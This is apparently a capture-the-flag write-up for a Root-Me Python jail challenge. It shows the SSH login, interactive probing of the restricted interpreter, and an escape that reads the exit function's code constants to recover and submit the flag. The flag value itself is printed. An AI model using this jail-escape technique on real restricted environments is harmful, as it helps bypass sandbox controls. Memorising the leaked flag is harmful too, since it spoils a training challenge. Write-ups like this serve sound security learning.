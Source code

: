 ```
 	ssh -p 2222 app-script-ch8@challenge02.root-me.org
```

A python script is automatically launched, and the goal is to escape it by typing **exit(flag)**.
Let's play around a bit.

```
>>> a = 3
>>> a
>>> print(a)
3
>>> a = "hey"
Denied
```
 We can define some interger variables and call print, but we cannot define strings. Can we call dir, that will give us a lots of information about exit ?

 ```
 >>> dir(exit)
NameError : name 'dir' is not defined
 ```

dir has been removed. But maybe we can call some properties of the exit function.
For example:

```
print(exit.func_code.co_consts)
(None, 'flag-WQ0dSFrab3LGADS1ypA1', -1, 'cat .passwd', 'You cannot escape !')
```
We have what we need to escape the pyjail.
But exit('flag-WQ0dSFrab3LGADS1ypA1') is not working, because we cannot define a string.

```
exit(exit.func_code.co_consts[1])
Well done flag : FLAG
Connection to challenge02.root-me.org closed.
```
